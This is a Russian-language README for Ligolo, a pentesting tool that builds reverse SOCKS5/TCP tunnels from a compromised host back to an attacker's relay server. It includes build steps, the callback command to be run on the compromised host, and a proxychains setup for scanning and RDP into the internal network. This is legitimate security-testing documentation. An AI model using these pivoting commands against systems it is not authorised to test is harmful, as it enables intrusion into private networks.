 # Ligolo : Простое обратное туннелирование для пентестеров, от пентестеров

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Содержание

- [Вступление](#Вступление)
- [Пример использования](#Пример-использования)
- [Быстрая демонстрация](#Быстрая-демонстрация)
- [Производительность](#Производительность)
- [Использование](#Использование)
  - [Настройка / Компиляция](#Настройка--Компиляция)
  - [Как использовать?](#Как-использовать)
  - [TL;DR](#tldr)
  - [Опции](#Опции)
- [Особенности](#Особенности)
- [To Do](#to-do)
- [Лицензирование](#Лицензирование)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Вступление

**Ligolo** это * простой * и * легкий * инструмент для установки * SOCKS5 * или * TCP * туннелей через обратное соединение в полной безопасности (сертификат TLS с эллиптической кривой).
Это сопоставимо с * Meterpreter* с * Autoroute + Socks4a*, но более стабильно и быстро.

## Пример использования

Вы скомпрометировали сервер Windows / Linux / Mac во время вашего внешнего аудита. Этот сервер расположен внутри локальной сети, и
вы хотите установить соединения с другими компьютерами в этой сети.

**Ligolo** может настроить туннель для доступа к ресурсам внутреннего сервера.

## Быстрая демонстрация

Ретрансляция RDP-соединения с использованием прокси-цепочек (WAN).

![RDP](img/rdesktop_example.gif)

## Производительность

Вот скриншот теста скорости между двумя хостами со скоростью 100 Мбит/с (ligolo / localrelay). Производительность может варьироваться в зависимости от конфигурации системы и сети.

![Проверка скорости](img/speedtest.png)

## Использование

### Настройка / Компиляция

Убедитесь, что * Go* установлен и работает.

1. Получите Ligolo и зависимости

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Сгенерируйте самоподписанный TLS сертификат (будет помещен в *certs* папку)

```
make certs TLS_HOST=example.com
```

NOTE: Вы также можете использовать свои собственные сертификаты, используя `TLS_CERT` переменную окружения при вызове *build*. Пример: `make build-all TLS_CERT=certs/mycert.pem`.

3. Сборка

* 3.1. Для всех архитектур

```
make build-all
```

* 3.2. (или) Для текущей архитектуры

```
make build
```

### Как использовать?

*Ligolo* состоит из двух модулей:

- localrelay
- ligolo

*Localrelay* предназначен для запуска на сервере управления (сервере злоумышленника).

*Ligolo* это программа для запуска на целевом компьютере.

Для *localrelay*, вы можете оставить параметры по умолчанию. Он будет прослушивать каждый интерфейс на порту 5555 и ждать подключений от *ligolo* (`-relayserver` параметр).

Для *ligolo*, вы должны указать IP-адрес сервера ретрансляции (или вашего сервера атаки), используя `-relayserver ip:port` параметр.

Вы можете использовать `-h` для помощи.

Как только будет установлено соединение между *Ligolo* и *LocalRelay*, прокси-сервер *SOCKS5* будет поднят на TCP-порт `1080` на relay сервере (вы можете изменить TCP-адрес/порт, используя опцию *-localserver*).

После этого все, что вам нужно сделать, это использовать ваш любимый инструмент (например, Proxychains) и исследовать локальную сеть клиента.

### TL;DR

На вашем атакующем сервере.

```
./bin/localrelay_linux_amd64
```

На скомпроментированом хосте.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Как только соединение установлено, установите следующие параметры в конфигурационном файле ProxyChains (на атакующем сервере):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Опции

*Localrelay* опции:

```
Использование localrelay:
  -certfile string
    	Сертификат сервера TLS (по умолчанию "certs/server.crt")
  -keyfile string
    	Ключ сервера TLS (по умолчанию "certs/server.key")
  -localserver string
    	Адрес локального сервера (ваш параметр proxychains) (default "127.0.0.1:1080")
  -relayserver string
    	Адрес прослушивания сервера ретрансляции (обратный адрес для подключения) (default "0.0.0.0:5555")
```

*Ligolo* опции:

```
Использование ligolo:
  -autorestart
    	Попытка повторного подключения в случае ошибки
  -relayserver string
    	Сервер ретрансляции (обратный адрес для подключения) (default "127.0.0.1:5555")
  -skipverify
    	Пропустить проверку сертификата TLS
  -targetserver string
    	Целевой сервер (RDP-клиент, SSH-сервер и т.д.) - если не указано, Ligolo запускает прокси-сервер socks5.
```

## Особенности

- Туннель TLS 1.3 с поддержкой TLS
- Мультиплатформенность (Windows / Linux / Mac / ...)
- Мультиплексирование (1 TCP-соединение для всех потоков)
- Прокси-сервер SOCKS5 или простая ретрансляция

## To Do

- Улучшенная обработка тайм-аута
- Поддержка SOCKS5 UDP
- Implement mTLS

## Лицензирование

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)
